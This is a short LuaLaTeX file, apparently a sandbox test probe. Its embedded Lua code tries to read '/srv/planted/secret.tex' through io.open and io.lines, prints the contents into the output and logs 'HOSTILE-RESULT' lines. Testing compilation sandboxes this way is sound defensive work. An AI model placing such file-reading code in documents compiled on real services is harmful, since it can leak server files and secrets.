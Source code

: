 \documentclass{article}
\begin{document}
\ttfamily
\begin{luacode*}
local f, err = io.open("/srv/planted/secret.tex", "r")
if f then
  local s = f:read("a")
  texio.write_nl("HOSTILE-RESULT: read " .. s)
  tex.print(-2, s)
else
  texio.write_nl("HOSTILE-RESULT: io.open blocked " .. tostring(err))
end
local ok, lines = pcall(io.lines, "/srv/planted/secret.tex")
texio.write_nl("HOSTILE-RESULT: io.lines ok=" .. tostring(ok))
if ok then for l in lines do tex.print(-2, l) end end
\end{luacode*}
Lua read.
\end{document}

